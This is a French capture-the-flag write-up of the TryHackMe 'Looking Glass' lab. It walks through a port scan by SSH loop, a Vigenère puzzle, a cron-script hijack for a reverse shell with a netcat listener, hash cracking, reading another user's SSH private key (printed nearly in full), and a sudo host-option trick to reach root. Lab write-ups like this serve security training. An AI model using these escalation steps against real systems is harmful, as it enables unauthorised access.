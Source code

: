 # ROOM
https://tryhackme.com/r/room/lookingglass

Un writeup fait a la va-vite comme d'habitude, mais promis je les referais plus propre !
# Enum
## NMAP
```
Le scan nmap montre le port 22, et ensuite une range de port de 9000 a 13999. Donc beaucoup de port...
```
En essayant d'afficher une page web sur plusieurs port, je passe par BurpSuite pour aller plus vite.
La réponse est toujours la même: **SSH-2.0-dropbear**

Après recherche, dropbear est un service SSH pour le matériel avec peu de spec, c'est peut-être un IoT (Internet of Things).
Je test de me connecter en SSH, la réponse du serveur est :
```
Lower
```
ou
```
Higher
```
en fonction du port sur lequel je tente de me connecter.

Vu le nombre de port, je vais pas pouvoir tout test manuellement cela serai bien trop long, on va donc faire un petit script pour test a notre place:
```bash
for i in $(seq 12855 13999);
do
    echo "Test sur le port $i"
    ssh -o "HostKeyAlgorithms=+ssh-rsa" -o "StrictHostKeyChecking=no" 10.10.24.153 -p $i
done
```
Ici, j'ai mis une sequence de 12855 a 13999 car j'avais déjà test quelques ports et j'avais donc déjà la range qu'il me fallais pour trouver le juste millieu.

Le port 12869 me répond autre chose que Lower ou Higher!
# Research
```
Test sur le port 12869
Warning: Permanently added '[10.10.24.153]:12869' (RSA) to the list of known hosts.
You've found the real service.
Solve the challenge to get access to the box
Jabberwocky

'Mdes mgplmmz, cvs alv lsmtsn aowil
Fqs ncix hrd rxtbmi bp bwl arul;
Elw bpmtc pgzt alv uvvordcet,
Egf bwl qffl vaewz ovxztiql.

'Fvphve ewl Jbfugzlvgb, ff woy!
Ioe kepu bwhx sbai, tst jlbal vppa grmjl!
Bplhrf xag Rjinlu imro, pud tlnp
Bwl jintmofh Iaohxtachxta!'

Oi tzdr hjw oqzehp jpvvd tc oaoh:
Eqvv amdx ale xpuxpqx hwt oi jhbkhe--
Hv rfwmgl wl fp moi Tfbaun xkgm,
Puh jmvsd lloimi bp bwvyxaa.

Eno pz io yyhqho xyhbkhe wl sushf,
Bwl Nruiirhdjk, xmmj mnlw fy mpaxt,
Jani pjqumpzgn xhcdbgi xag bjskvr dsoo,
Pud cykdttk ej ba gaxt!

Vnf, xpq! Wcl, xnh! Hrd ewyovka cvs alihbkh
Ewl vpvict qseux dine huidoxt-achgb!
Al peqi pt eitf, ick azmo mtd wlae
Lx ymca krebqpsxug cevm.

'Ick lrla xhzj zlbmg vpt Qesulvwzrr?
Cpqx vw bf eifz, qy mthmjwa dwn!
V jitinofh kaz! Gtntdvl! Ttspaj!'
Wl ciskvttk me apw jzn.

'Awbw utqasmx, tuh tst zljxaa bdcij
Wph gjgl aoh zkuqsi zg ale hpie;
Bpe oqbzc nxyi tst iosszqdtz,
Eew ale xdte semja dbxxkhfe.
Jdbr tivtmi pw sxd[...REDACTED...]td

Enter Secret:
```
C'est du vigenère, une fois décoder on retrouve le secret :
Secret :
```
be[...REDACTED...]ck
```
On peu donc entrer le secret, et il nous affiche un compte SSH:
Compte SSH:
```
jabberwock:Mostly[...REDACTED...]hecked
```
# SSH
1er flag
```
jabberwock@looking-glass:~$ cat user.txt 
}32a9119[...REDACTED...]d56{mht
```
Le flag est vu depuis un mirroir, suffit de le reverse pour avoir le flag.

# Privesc to tweedledee
Dans le dossier /home de jabberwock on retrouve un script, un flag et un poeme.
Le compte jabberwork peux exectuer **/sbin/reboot** en tant que root sans passwd.

En regardant dans les taches cron, on vois que **tweedledum** execute le script.
Je modifie le script dans le home de **jabberwork** puis execute le sudo **/sbin/reboot**, sur ma machine, j'ouvre un listener
```
nc -lnvp 4444
```
J'ai revshell en tant que tweedledum.

# Privesc to tweedledum
En regardant les droits sur sudo avec **sudo -l** on vois qu'on peux executer **/bin/bash** en tant que **tweedledum**
```
sudo -u tweedledum /bin/bash
```
Nous voila en tant que tweedledum

# Privesc to humptydumpty
On retrouve ces hash dans un fichier :
```
dcfff5eb40423f055a[...REDACTED...]9816868f5766b4088b9e9906961b94
7692c3ad3540bb803c[...REDACTED...]123234ea0c6e7143c0add73ff431ed
28391d3bc64ec15cbb[...REDACTED...]9c3cc85f11230bb0105e02d15e3624
b808e156d18d1cecdc[...REDACTED...]c36549a07c8c2315b473dd9d7f404f
fa51fd49abf67705d6[...REDACTED...]633aec1f9ebfdc9d5d4956416f57f6
b9776d7ddf459c9ad5[...REDACTED...]b5e99fd62446677600d7cacef544d0
5e884898da28047151[...REDACTED...]603d0d6aabbdd62a11ef721d1542d8
746865207061737377[...REDACTED...]797877767574737271706f6e6d6c6b
```
Une fois décoder via crackstation, ils fonctionnent tous sauf le dernier.
Je passe donc via cyberchef et je trouve le password :
```
the password is zy[...REDACTED...]lk
```
C'est le mot de passe du compte de humptydumpty

# Privesc to Alice !
On ne peux rien voir ni écrire dans le dossier de alice, on a un accès refusé.

Je test de lire le fichier .bashrc, rien ne s'affiche, pour le coup c'est une bonne chose car je ne suis pas bloquer pour lire.
Je test donc de lire sa clé SSH et cela fonctionne :

```
humptydumpty@looking-glass:/home$ cat /home/alice/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpgIBAAKCAQEAxmPncAXisNjbU2xizft4aYPqmfXm1735FPlGf4j9ExZhlmmD
NIRchPaFUqJXQZi5ryQH6YxZP5IIJXENK+a4WoRDyPoyGK/63rXTn/IWWKQka9tQ
2xrdnyxdwbtiKP1L4bq/4vU3OUcA+aYHxqhyq39arpeceHVit+jVPriHiCA73k7g
HCgpkwWczNa5MMGo+1Cg4ifzffv4uhPkxBLLl3f4rBf84RmuKEEy6bYZ+/WOEgHl
fks5ngFniW7x2R3vyq7xyDrwiXEjfW4yYe+kLiGZyyk1ia7HGhNKpIRufPdJdT+r
NGrjYFLjhzeWYBmHx7JkhkEUFIVx6ZV1y+gihQIDAQABAoIBAQDAhIA5kCyMqtQj
X2F+O9J8qjvFzf+GSl7lAIVuC5Ryqlxm5tsg4nUZvlRgfRMpn7hJAjD/bWfKLb7j
/pHmkU1C4WkaJdjpZhS[...REDACTED...]z7ds4f78z74xmlR+RHCb40pZjBgr5
8bjJlQcp6pplBRCF/OsG5ugpCiJsS6uA6CWWXe6WC7r7V94r5wzzJpWBAoGBAM1R
aCg1/2UxIOqxtAfQ+WDxqQQuq3szvrhep22McIUe83dh+hUibaPqR1nYy1sAAhgy
wJohLchlq4E1LhUmTZZquBwviU73fNRbID5pfn4LKL6/yiF/GWd+Zv+t9n9DDWKi
WgT9aG7N+TP/yimYniR2ePu/xKIjWX/uSs3rSLcFAoGBAOxvcFpM5Pz6rD8jZrzs
SFexY9P5nOpn4ppyICFRMhIfDYD7TeXeFDY/yOnhDyrJXcbOARwjivhDLdxhzFkx
X1DPyif292GTsMC4xL0BhLkziIY6bGI9efC4rXvFcvrUqDyc9ZzoYflykL9KaCGr
+zlCOtJ8FQZKjDhOGnDkUPMBAoGBAMrVaXiQH8bwSfyRobE3GaZUFw0yreYAsKGj
oPPwkhhxA0UlXdITOQ1+HQ79xagY0fjl6rBZpska59u1ldj/BhdbRpdRvuxsQr3n
aGs//N64V4BaKG3/CjHcBhUA30vKCicvDI9xaQJOKardP/Ln+xM6lzrdsHwdQAXK
e8wCbMuhAoGBAOKy5OnaHwB8PcFcX68srFLX4W20NN6cFp12cU2QJy2MLGoFYBpa
dLnK/rW4O0JxgqIV69MjDsfRn1gZNhTTAyNnRMH1U7kUfPUB2ZXCmnCGLhAGEbY9
k6ywCnCtTz2/sNEgNcx9/iZW+yVEm/4s9eonVimF+u19HJFOPJsAYxx0
-----END RSA PRIVATE KEY-----

```
On peu se connecter en SSH en tant que Alice

# Privesc to root
Via linpeas, je trouve que le fichier **/etc/sudoers.d/alice** est lisible
```
alice ssalg-gnikool = (root) NOPASSWD: /bin/bash
```
le host est aussi en mirroir, **ssalg-gnikool** au lieux de **looking-glass**
J'essaye de le modifier mais je n'ai pas les droits.

en regardant le man de sudo, on peux définir un host avec le paramètre **-h**
```
-h host, --host=host
               Run  the  command on the specified host if the security policy plugin supports remote commands. The sudoers plugin does not currently support run‐
               ning remote commands. This may also be used in conjunction with the -l option to list a user's privileges for the remote host.
```
Je tente donc:
```
alice@looking-glass:~$ sudo -h ssalg-gnikool /bin/bash
sudo: unable to resolve host ssalg-gnikool
root@looking-glass:~# id
uid=0(root) gid=0(root) groups=0(root)
```
Me voila root !
```
root@looking-glass:~# cat /root/root.txt 
}f3dae6[...REDACTED...]f6b7332cb{mht
```

# Bonus 
Pour lire les flags 'mirrored', on peu le faire avec python:

```python
flag = "}00000000000000000000000000000000{mht"
print(flag[::-1])
```
